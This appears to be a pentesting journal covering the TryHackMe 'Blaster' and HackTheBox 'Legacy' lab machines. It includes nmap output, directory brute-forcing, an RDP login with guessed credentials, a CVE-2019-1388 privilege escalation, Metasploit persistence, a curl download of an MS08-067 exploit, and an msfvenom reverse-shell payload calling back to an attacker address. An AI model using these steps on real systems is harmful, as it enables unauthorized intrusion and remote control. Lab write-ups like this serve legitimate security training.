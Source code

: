 https://medium.com/@PenTest_duck/offensive-msfvenom-from-generating-shellcode-to-creating-trojans-4be10179bb86

### Day 14 - Blaster

Initial nmap scan: `nmap -sC -sV -T5 --min-rate 2500 -p- -Pn target -oN nmap.log -v`
```
Nmap scan report for target (10.10.239.85)
Host is up (0.042s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-05-12T17:43:08+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T17:39:23
| Not valid after:  2020-11-10T17:39:23
| MD5:   4c42 c1e2 1ad1 cbc2 9971 6407 373f 9d4e
|_SHA-1: 1c7f 1430 bd9a 9608 157d 1453 01c5 0ee5 63fe 58f2
|_ssl-date: 2020-05-12T17:43:09+00:00; +1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Subdirectory bruteforcing:
`ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://target/FUZZ`

Browse through the website, discover the login issues and guess the password to the user you found.

Login to WP-Dashboard and RDP:
`xfreerdp /u:Wade /p:parzival /v:target`

Use the researched [CVE-2019-1388](https://github.com/jas502n/CVE-2019-1388) to get Administrator priviledges.
Finally, get persistence with Metasploit: `run persistence -X`

### Day 15 - Kicking (off) HackTheBox

#### Legacy
```
nmap -T4 -A -p- 10.10.10.4 -oN nmap.log -v
nmap -p139,445,3389 -O 10.10.10.4 -v
nmap --script smb-vuln-ms08-067 -p445 -Pn 10.10.10.4 -v

curl https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py -o ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
python ms08-067.py 10.10.10.4 7 445
```
